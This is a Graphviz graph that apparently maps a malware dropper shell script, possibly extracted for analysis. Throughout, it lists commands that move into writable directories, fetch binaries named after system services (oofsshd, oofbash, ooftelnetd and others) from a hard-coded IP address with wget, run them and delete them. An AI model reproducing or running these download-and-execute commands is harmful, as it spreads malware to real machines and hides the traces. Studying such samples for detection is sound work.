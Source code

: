 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://137.74.148.236/oofntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x oofntpd "];
12 -> 14 [label=";,"];
14 [label="./oofntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf oofntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://137.74.148.236/oofsshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x oofsshd "];
30 -> 32 [label=";,"];
32 [label="./oofsshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf oofsshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://137.74.148.236/oofopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x oofopenssh "];
48 -> 50 [label=";,"];
50 [label="./oofopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf oofopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://137.74.148.236/oofbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x oofbash "];
66 -> 68 [label=";,"];
68 [label="./oofbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf oofbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://137.74.148.236/ooftftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x ooftftp "];
84 -> 86 [label=";,"];
86 [label="./ooftftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf ooftftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://137.74.148.236/oofwget "];
100 -> 102 [label=";,"];
102 [label="chmod +x oofwget "];
102 -> 104 [label=";,"];
104 [label="./oofwget "];
104 -> 106 [label=";,"];
106 [label="rm -rf oofwget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://137.74.148.236/oofcron "];
118 -> 120 [label=";,"];
120 [label="chmod +x oofcron "];
120 -> 122 [label=";,"];
122 [label="./oofcron "];
122 -> 124 [label=";,"];
124 [label="rm -rf oofcron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://137.74.148.236/oofftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x oofftp "];
138 -> 140 [label=";,"];
140 [label="./oofftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf oofftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://137.74.148.236/oofpftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x oofpftp "];
156 -> 158 [label=";,"];
158 [label="./oofpftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf oofpftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://137.74.148.236/oofsh "];
172 -> 174 [label=";,"];
174 [label="chmod +x oofsh "];
174 -> 176 [label=";,"];
176 [label="./oofsh "];
176 -> 178 [label=";,"];
178 [label="rm -rf oofsh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://137.74.148.236/oofshit "];
190 -> 192 [label=";,"];
192 [label="chmod +x oofshit "];
192 -> 194 [label=";,"];
194 [label="./oofshit "];
194 -> 196 [label=";,"];
196 [label="rm -rf oofshit "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://137.74.148.236/oofapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x oofapache2 "];
210 -> 212 [label=";,"];
212 [label="./oofapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf oofapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://137.74.148.236/ooftelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x ooftelnetd "];
228 -> 230 [label=";,"];
230 [label="./ooftelnetd "];
230 -> 231 [label=";,"];
}
